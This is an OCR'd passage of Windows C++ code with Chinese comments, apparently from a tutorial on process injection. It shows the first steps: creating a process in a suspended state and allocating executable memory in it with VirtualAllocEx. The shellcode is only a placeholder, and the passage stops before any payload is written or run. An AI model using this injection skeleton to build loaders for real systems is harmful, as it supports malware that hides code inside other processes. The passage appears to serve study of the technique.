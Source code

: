 # 方法2：LoadLibrary → GetProcAddress

```
#include <Windows.h>
#include <iostream>
#include <wincrypt.h>
#include <string>
#include <tchar.h>
#include<vector>
#include <stdio.h>
#include <wchar.h>
#include <conio.h>
#include <tlhelp32.h>
#include <typeinfo>
#include "corecrt_wstring.h"
#pragma comment(lib, "crypt32.lib")


using namespace std;


void _tmain(int argc, _TCHAR* argv[])
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    BOOL process_result = 0;
    BOOL memory_result = 0;
    BOOL context_result = 0;
    BOOL eip_result = 0;
    DWORD resume_result = 0;
    LPVOID rwxpage;
    CONTEXT threadContext;


    int length;
    unsigned char buf[] = "\xcc\xcc\xcc\xc3";
    length = sizeof(buf) / sizeof(buf[0]);


    wchar_t CommandLine[MAX_PATH] = { 0 };
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));


    /*step 1: 调用 CreateProcess 以挂起的方式（CREATE_SUSPENDED）创建进程*/
    process_result = CreateProcessW(NULL, CommandLine, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    if (!process_result)
    {
        _tprintf(_T("CreateProcess failed (%d).\n"), GetLastError());
        return;
    }


    /*step 2: 调用 VirtualAllocEx 函数申请一个可读、可写、可执行的内容*/
    //返回结果在 lpProcessInformation 结构体的 hProcess 成员中，是一个进程句柄
    if (pi.hProcess != NULL)
    {
        rwxpage = VirtualAllocEx(pi.hProcess, 0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        printf("rwxpage = %p", rwxpage);


```